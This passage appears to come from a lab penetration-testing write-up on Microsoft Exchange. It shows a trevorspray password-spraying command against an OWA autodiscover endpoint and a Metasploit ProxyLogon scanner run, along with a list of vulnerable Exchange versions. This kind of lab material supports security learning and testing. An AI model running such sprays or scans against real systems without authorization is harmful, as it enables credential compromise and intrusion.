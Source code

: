 - If we try to spray the password "cersei" we will get a result :

```
trevorspray -u valid_users.txt -p cersei --url https://10.4.10.21/autodiscover/autodiscover.xml -m owa
```

![trevorspray.png](/assets/blog/EXCHANGE/trevorspray.png)


## proxy logon (CVE-2021-26855, CVE-2021-27065): patched

- proxy logon is a super nice vuln, if you want some explanation i recommend you to read Orange Tsai's blog: [https://blog.orange.tw/posts/2021-08-proxylogon-a-new-attack-surface-on-ms-exchange-part-1/](https://blog.orange.tw/posts/2021-08-proxylogon-a-new-attack-surface-on-ms-exchange-part-1/)

- We will check for proxy logon with metasploit :

```
> use auxiliary/scanner/http/exchange_proxylogon
msf6 auxiliary(scanner/http/exchange_proxylogon) > set rhosts 10.4.10.21
msf6 auxiliary(scanner/http/exchange_proxylogon) > run
[-] https://10.4.10.21:443 - The target is not vulnerable to CVE-2021-26855.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

vulnerable proxy logon :
```
    Exchange Server 2019 < 15.02.0792.010
    Exchange Server 2019 < 15.02.0721.013
    Exchange Server 2016 < 15.01.2106.013
    Exchange Server 2013 < 15.00.1497.012
```
